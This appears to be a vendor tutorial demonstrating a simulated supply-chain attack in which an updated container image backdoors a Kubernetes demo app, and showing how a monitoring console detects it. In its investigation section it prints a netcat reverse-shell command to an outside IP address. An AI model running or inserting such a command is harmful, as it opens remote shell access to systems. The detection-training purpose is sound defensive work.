 # Supply-Chain Attack

This scenario demonstrates a supply chain attack where a container image is getting an update with malicious code to create a backdoor to a kubernetes cluster environment. It shows how through the use of policies for applications running on the cluster, unanticipated changes in the behavior of these application can be detected early and remediated.

## Initial setup

If you have not yet done the inital installation steps for these attack scenarios, refer to [Spyderbat eval repository](https://github.com/spyderbat/eval)

If your setup was successful, you should see a namespace called `supply-chain` in your cluster, and some resources in it, like so:

```sh
kubectl get all -n supply-chain
```
```
NAME                            READY   STATUS    RESTARTS   AGE
pod/mongodb-66b5d7df55-b6q5j    1/1     Running   0          18h
pod/rsvp-app-587559dbf4-fnvzq   1/1     Running   0          18h
pod/rsvp-app-587559dbf4-mbxkl   1/1     Running   0          18h

NAME               TYPE        CLUSTER-IP      EXTERNAL-IP   PORT(S)        AGE
service/mongodb    ClusterIP   10.43.220.107   <none>        27017/TCP      25h
service/rsvp-app   ClusterIP   10.43.201.79    <none>        80/TCP         25h

NAME                       READY   UP-TO-DATE   AVAILABLE   AGE
deployment.apps/mongodb    1/1     1            1           25h
deployment.apps/rsvp-app   2/2     2            2           25h

NAME                                  DESIRED   CURRENT   READY   AGE
replicaset.apps/mongodb-66b5d7df55    1         1         1       18h
replicaset.apps/rsvp-app-587559dbf4   2         2         2       18h
```

## Inspecting the setup

We can have a look at what this looks like in the cluster, and what processes are running in the Spyderbat Console.

Log in to the console, click on the Kubernetes menu item in the navigation bar, pick your cluster in the Cluster dropdown, and click on New Search.

Now, pick the 'Workload View' to see all kubernetes artefacts, and in the facet filter on the left, select the supply-chain namespace.

![K8s view of the application](./supply_chain_1.png)

We can see a deployment/replicaset/pod for the mongodb backend for the application, and a deployment/replicaset with two pods for the web-tier of the application.

Let's have a closer look at the web tier, and inspect the manifest of the pod. Click on one of the rvsp-app pods and scroll down in the lower pane to inspect the kubernetes definition, down to the spec section.

![rsvp app pod spec](./supply_chain_2.png)

We can see the app is running an image `guyduchatelet/spyderbat-demo:1`

We can assess what is running in this image by inspecting the container that is running it. Right-click on the container and select 'investigate container'

<div style="display:flex;justify-content:center">

![investigate container](./supply_chain_3.png)

</div>

This brings us to a process view of everything running inside of the container:

<div style="display:flex;justify-content:center">

![container process view](./supply_chain_4.png)

</div>
We can tell from this the entrypoint of the container spawns a python process, and another child python process to run the web
server. That is the normal state of this web server container


## Running the Exploit

For this exploit, we are going to simulate a supply chain attack on
the image of the web app we deployed. Imagine a newer version of the image gets pushed to the image repo, and that image got compromised and contains embedded code to gain access, through a backdoor.

The application developers are unaware and will push a newer version
of the image.

Let's simulate that action by updating the web deployment to use a more recent version of the image.

Find the file `supply-chain.yaml` under the modules directory of the eval repo, and open it up in your editor of choice.

Look for the deployment definition with name 'rsvp-app', and find the spec section. In the container properties, update the image from
`guyduchatelet/spyderbat-demo:1` to `guyduchatelet/spyderbat-demo:2`

After saving, now let's apply this change to the cluster:

```sh
kubectl apply -f supply-chain.yaml
```
```
namespace/supply-chain unchanged
deployment.apps/mongodb unchanged
service/mongodb unchanged
deployment.apps/rsvp-app configured
service/rsvp-app unchanged
```

We can see that the rsvp-app deployment is getting updated. The existing pods will be removed, and new pods will take their place.

## Investigating the Results

Give it a few minutes for these changes to take effect, and then we can go back to the Spyderbat UI to evaluate the change in behavior

Go back to the Kubernetes view in the UI, pick your cluster, update your start-time selection to 'Now', for the most recent view on your cluster, select the workload view. Then locate again the supply-chain namespace, and the rsvp-app and its containers.

Depending on your timing, you might see both the older deployment (with the previous image) and the newer deployment side to side in this view, like here:

![container process view](./supply_chain_6.png)

On the left, we see the old deployment, on the right the new deployment came in. Already in this view, there is an indication things have changed - we see several redflags that have been raised on the new containers. These flags can be inspected for more detail.

Let's pivot again into the full process view inside the container. Pick a container and inspect it again as before to look at the processes running inside. Here's what we see:

![compromised container process view](./supply_chain_5.png)

Clearly the behavior of this image has changed, it's no longer just running a python web server but is running several suspicious commands. We can see it is running a netcat command

```sh
/tmp/nc 54.161.223.45 443 -e /bin/bash
```

Which seems to have succeed in creating a backdoor towards a system on the internet.

## Next Steps

Given the identification of the backdoor, the most prudent course of action is to work with the application developer to roll back to the older version of the app, and further investigate other suspicious activity on the kubernetes nodes.

Spyderbat also can provide a very strong defense against this type of attack by leveraging a Guardian policy for a container image, that will specify explicitly what is the expected behavior of the image, and automatically alert on, or even kill pods where the behavior differs.

We will explore this in the "Image Policies — Supply-Chain Attack" scenario.

